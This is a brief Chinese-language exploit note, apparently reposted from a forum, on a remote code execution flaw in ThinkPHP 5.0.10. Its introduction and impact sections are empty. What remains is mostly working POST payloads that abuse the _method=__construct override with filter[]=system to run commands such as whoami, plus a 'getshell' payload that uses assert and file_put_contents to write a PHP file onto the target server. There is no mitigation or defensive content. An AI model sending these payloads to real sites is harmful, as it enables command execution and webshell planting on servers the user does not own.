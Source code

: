 # Thinkphp 5.0.10

> 原文：[https://www.zhihuifly.com/t/topic/3149](https://www.zhihuifly.com/t/topic/3149)

# Thinkphp 5.0.10

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

post提交

```
http://www.0-sec.org/public/index.php?s=index/index/index `s=whoami&_method=__construct&method&filter[]=system

s=whoami&_method=__construct&method=POST&filter[]=system

s=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> getshell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```